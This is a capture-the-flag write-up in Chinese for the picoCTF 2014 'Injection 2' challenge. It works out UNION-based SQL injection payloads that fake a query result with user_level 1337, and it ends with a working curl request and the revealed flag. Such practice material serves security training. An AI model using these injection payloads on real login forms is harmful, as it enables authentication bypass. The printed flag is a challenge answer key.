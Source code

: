 # Injection 2
[網站](http://web2014.picoctf.com/injection2/)，hint：創造一個假的query結果
 * 可以使用UNION！
 * 看到[php code](http://web2014.picoctf.com/injection2/login.phps)，要拿到flag的條件：
  1. SELECT返回結果只能有1個才能進入給flag的程式碼
  2. 表格user的attribute: `user_level >= 1337`

## Solve
 * 使用：
  * username = `hehe' UNION SELECT 'hehe' as username, '123' as password, 1337 as user_level#`
  * password = `123`，登入
 * 但登入失敗，原因是UNION後面加的SELECT和前面的SELECT的column沒對到
  * => 可能是數目不對或是順序不對，試試加一個column：
  * `username = hehe' UNION SELECT null, 'hehe' as username, '123' as password, 1337 as user_level#`
  * `username = hehe' UNION SELECT 'hehe' as username, null, '123' as password, 1337 as user_level#`
  * `username = hehe' UNION SELECT 'hehe' as username, '123' as password, null, 1337 as user_level#`
  * `username = hehe' UNION SELECT 'hehe' as username, '123' as password, 1337 as user_level, null#`
 * 全失敗，加兩個column：
  * `username = hehe' UNION SELECT　null, null, 'hehe' as username, '123' as password, 1337 as user_level#`
  * `username = hehe' UNION SELECT null, 'hehe' as username, null, '123' as password, 1337 as user_level#`
  * `username = hehe' UNION SELECT null, 'hehe' as username, '123' as password, null, 1337 as user_level#`
  * `username = hehe' UNION SELECT null, 'hehe' as username, '123' as password, 1337 as user_level, null#`
  * `username = hehe' UNION SELECT 'hehe' as username, null, null, '123' as password, 1337 as user_level#`
  * `username = hehe' UNION SELECT 'hehe' as username, null, '123' as password, null, 1337 as user_level#`

```
$ curl --request POST 'http://web2014.picoctf.com/injection2/login.php' --data "username=username+%3D+hehe%27+UNION+SELECT+%27hehe%27+as+username%2C+null%2C+%27123%27+as+password%2C+null%2C+1337+as+user_level%23&password=123&debug=0"
<h1>Logged in!</h1><pre>User level: 1337</pre><p>Your flag is: flag_nJZAKGWYt7YfzmTsCV</p>
```
